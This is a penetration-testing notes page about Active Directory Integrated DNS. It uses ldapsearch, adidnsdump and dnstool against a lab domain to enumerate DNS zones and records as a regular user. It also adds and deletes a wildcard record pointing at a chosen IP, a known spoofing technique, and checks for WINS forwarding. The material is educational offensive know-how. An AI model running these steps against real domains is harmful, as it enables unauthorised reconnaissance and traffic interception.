



# ADIDNS

ADIDNS (Active Directory Integrated DNS) is the DNS part of Active Directory
that allows Domain Controllers act as central DNS servers. All the DNS records
are stored in the AD database (NTDS.dit).

The DNS records in Active Directory can be accessed and modified in two ways:
through DNS or LDAP.

We can find the dns records in LDAP database under one of these partitions:
- `CN=MicrosoftDNS,DC=DomainDnsZones,DC=<domain>,DC=<tld>`: For domain records.
- `CN=MicrosoftDNS,DC=ForestDnsZones,DC=<domain>,DC=<tld>`: For forest records.
- `CN=MicrosoftDNS,CN=System,DC=<domain>,DC=<tld>`: Legacy partition used in old
  DCs.

## Retrieve DNS zones

Using the DNS partitions as base for our LDAP queries, we can find the DNS
zones.
The LDAP query could be:
- Base: One of these:
  - `CN=MicrosoftDNS,DC=DomainDnsZones,DC=<domain>,DC=<tld>`
  - `CN=MicrosoftDNS,DC=ForestDnsZones,DC=<domain>,DC=<tld>`
  - `CN=MicrosoftDNS,CN=System,DC=<domain>,DC=<tld>`
- Scope: One level

Alternatively, the LDAP query could be:
- Base: One of these:
  - `CN=MicrosoftDNS,DC=DomainDnsZones,DC=<domain>,DC=<tld>`
  - `CN=MicrosoftDNS,DC=ForestDnsZones,DC=<domain>,DC=<tld>`
  - `CN=MicrosoftDNS,CN=System,DC=<domain>,DC=<tld>`
- Filter: `(objectClass=dnsZone)`

Example of DNS zones search:
```
$ ldapsearch -LLL -x -H ldaps://dc01.hack.lab -D user@hack.lab -w 'P4ssw0rd' \
-b 'CN=MicrosoftDNS,DC=DomainDnsZones,DC=hack,DC=lab' \
'(objectClass=dnsZone)' \
name

dn: DC=hack.lab,CN=MicrosoftDNS,DC=DomainDnsZones,DC=hack,DC=lab
name: hack.lab

dn: DC=RootDNSServers,CN=MicrosoftDNS,DC=DomainDnsZones,DC=hack,DC=lab
name: RootDNSServers
```

<figure  style="text-align:center">
    
    <figcaption><p>DNS Zones in ADExplorer</p></figcaption>
</figure>

We can also use [adidnsdump](https://github.com/dirkjanm/adidnsdump) to retrieve all the zones:
```
adidnsdump -u hack.lab\\user -p 'P4ssw0rd' --print-zones dc01.hack.lab
```


```
$ adidnsdump -u hack.lab\\user -p 'P4ssw0rd' --print-zones dc01.hack.lab
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Found 2 domain DNS zones:
    hack.lab
    RootDNSServers
[-] Found 2 forest DNS zones (dump with --forest):
    ..TrustAnchors
    _msdcs.hack.lab
[-] Found 1 legacy DNS zones (dump with --legacy):
    RootDNSServers
```

### Retrieve DNS records

In ADIDNS under each zone, we can find the DNS records objects. It is possible
to list them all, but **some records don't allow regular users to read its
properties**, therefore if we use the LDAP filter `(objectClass=dnsNode)` the
LDAP query won't retrieve some of them (since the regular user cannot read
the `objectClass` attribute of some records).

A better approach is the following LDAP query:
- Base: `DC=<zone>,CN=MicrosoftDNS,DC=DomainDnsZones,DC=<domain>,DC=<tld>`
- Scope: One

Here is an example with ldapsearch:
```
$ ldapsearch -LLL -x -H ldaps://dc01.hack.lab -D user@hack.lab -w 'P4ssw0rd' \
-b 'DC=hack.lab,CN=MicrosoftDNS,DC=DomainDnsZones,DC=hack,DC=lab' \
-s one \
dn | grep dn: | cut -d = -f 2 | cut -d , -f 1
@
_gc._tcp
_gc._tcp.Default-First-Site-Name._sites
_gc._tcp.SQLServersEurope._sites
_kerberos._tcp
_kerberos._tcp.Default-First-Site-Name._sites
_kerberos._tcp.SQLServersEurope._sites
_kerberos._udp
_kpasswd._tcp
_kpasswd._udp
_ldap._tcp
_ldap._tcp.Default-First-Site-Name._sites
_ldap._tcp.Default-First-Site-Name._sites.DomainDnsZones
_ldap._tcp.Default-First-Site-Name._sites.ForestDnsZones
_ldap._tcp.DomainDnsZones
_ldap._tcp.ForestDnsZones
_ldap._tcp.SQLServersEurope._sites
_ldap._tcp.SQLServersEurope._sites.DomainDnsZones
_ldap._tcp.SQLServersEurope._sites.ForestDnsZones
_msdcs
ca01
dc01
ws01
DomainDnsZones
ForestDnsZones
ws02
```

<figure  style="text-align:center">
    
    <figcaption><p>DNS records in ADExplorer</p></figcaption>
</figure>

We can use [adidnsdump](https://github.com/dirkjanm/adidnsdump) to retrieve the records via LDAP:
```
adidnsdump -u <domain>\\<user> -p '<password>' <dc>
```

However, by default [adidnsdump](https://github.com/dirkjanm/adidnsdump) will only retrieve the records using LDAP
queries so some machines won't contain the IP since regular users cannot read
some DNS records values. To get a more complete result, we can use the
`-r/--resolve` flag that resolves all the unknown IPs with DNS queries:
```
adidnsdump -u <domain>\\<user> -p '<password>' <dc> --resolve
```

Here is an **example**:
```
$ adidnsdump -u hack.lab\\user -p 'P4ssw0rd' dc01.hack.lab && cat records.csv
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Querying zone for records
[+] Found 16 records, saving to records.csv
type,name,value
A,ws01,192.168.0.247
?,ForestDnsZones,?
?,DomainDnsZones,?
?,dc01,?
?,ca01,?
NS,_msdcs,dc01.hack.lab.
?,_ldap._tcp.SQLServersEurope._sites.ForestDnsZones,?
?,_ldap._tcp.SQLServersEurope._sites.DomainDnsZones,?
?,_ldap._tcp.SQLServersEurope._sites,?
?,_kerberos._tcp.SQLServersEurope._sites,?
?,_gc._tcp.SQLServersEurope._sites,?
NS,@,dc01.hack.lab.
A,@,192.168.0.1
```

## Add ADIDNS records

### Query wildcard record

First we can check if the wildcard record doesn't exists with [dnstool](https://github.com/dirkjanm/krbrelayx):
```
./dnstool.py -u <domain>\\<user> -p '<password>' <dc> --action query -r '*'
```

Example with [dnstool](https://github.com/dirkjanm/krbrelayx):
```
$ ./dnstool.py -u hack.lab\\user -p 'P4ssw0rd' dc01.hack.lab \
--action query \
-r '*'
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found record *
DC=*,DC=hack.lab,CN=MicrosoftDNS,DC=DomainDnsZones,DC=hack,DC=lab
[+] Record entry:
 - Type: 1 (A) (Serial: 149)
 - Address: 192.168.0.33
```

Example of wildcard record query with ldapsearch:
```
$ ldapsearch -LLL -x -H ldaps://dc01.hack.lab -D user@hack.lab -w 'P4ssw0rd' \
-b 'DC=hack.lab,CN=MicrosoftDNS,DC=DomainDnsZones,DC=hack,DC=lab' \
-s one \
dn | grep '*'
dn: DC=*,DC=hack.lab,CN=MicrosoftDNS,DC=DomainDnsZones,DC=hack,DC=lab
```
In this case the record exists and we cannot modify it (by default).


### Add wildcard record

Add wildcard record with [dnstool](https://github.com/dirkjanm/krbrelayx):
```
./dnstool.py -u <domain>\\<user> -p '<password>' <dc> --action add -r '*' -d <wildcard-ip>
```

Example with [dnstool](https://github.com/dirkjanm/krbrelayx):
```
$ ./dnstool.py -u hack.lab\\user -p 'P4ssw0rd' dc01.hack.lab \
-dns-ip 192.168.0.1 \
--action add \
-r '*' \
-d 192.168.0.33
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

Then, we can verify our DNS record is working by trying to resolve a random
subdomain:
```
$ host tetete.hack.lab
tetete.hack.lab has address 192.168.122.33
```

### Delete wildcard record

**Warning**: Even if we delete the wildcard record, it may be cached in DNS and
keeps resolving for a while (even days).

To delete the record with [dnstool](https://github.com/dirkjanm/krbrelayx):
```
./dnstool.py -u <domain>\\<user> -p '<password>' <dc> --action ldapdelete -r '*'
```

Example with [dnstool](https://github.com/dirkjanm/krbrelayx):
```
$ ./dnstool.py -u hack.lab\\user -p 'P4ssw0rd' dc01.hack.lab \
--action ldapdelete \
-r '*'
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Deleting record over LDAP
[+] LDAP operation completed successfully
```

### How to protect the wildcard record

To protect the wildcard record the best approach can be to create it with just
an empty TXT record, to [avoid issues with order suffixes](https://www.netspi.com/blog/technical-blog/network-penetration-testing/adidns-revisited/).

## Check the WINS forward

The ADIDNS server can forward the DNS requests to a WINS server (that resolves
NetBios names). In case this capability know as **WINS forward** is enabled, the
**wildcard record won't work**, since the queries for non existent records will
be forwarded to the WINS server instead of being answered with the wildcard
record address.

<figure  style="text-align:center">
    
    <figcaption><p>WINS forward enabled in domain</p></figcaption>
</figure>

When WINS forward is enabled, the default record (@) of the domain, will have a
*TYPE65281* record.  We can check if the domain has WINS forward enabled by
requesting the TYPE65281 record:
```
$ dig +noall +answer TYPE65281 hack.lab
hack.lab.		0	IN	TYPE65281 \# 20 000000000000000200000E1000000001C0A80001
```

In this case the record is forwarded to WINS and wildcard record won't work.

## Resources

- [dnstool (tool)](https://github.com/dirkjanm/krbrelayx) by dirkjanm
- [Powermad (tool)](https://github.com/Kevin-Robertson/Powermad) by Kevin-Robertson
- [adidnsdump (tool)](https://github.com/dirkjanm/adidnsdump) by dirkjanm
- 10/07/2018 [Beyond LLMNR/NBNS Spoofing – Exploiting Active
  Directory-Integrated DNS](https://www.netspi.com/blog/technical-blog/network-pentesting/exploiting-adidns/) by Kevin Robertson
- 5/12/2018 [ADIDNS Revisited – WPAD, GQBL, and More](https://www.netspi.com/blog/technical-blog/network-penetration-testing/adidns-revisited/) by Kevin Robertson
- [Getting in the Zone: dumping Active Directory DNS using adidnsdump](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/) by
  Dirk-jan Mollema
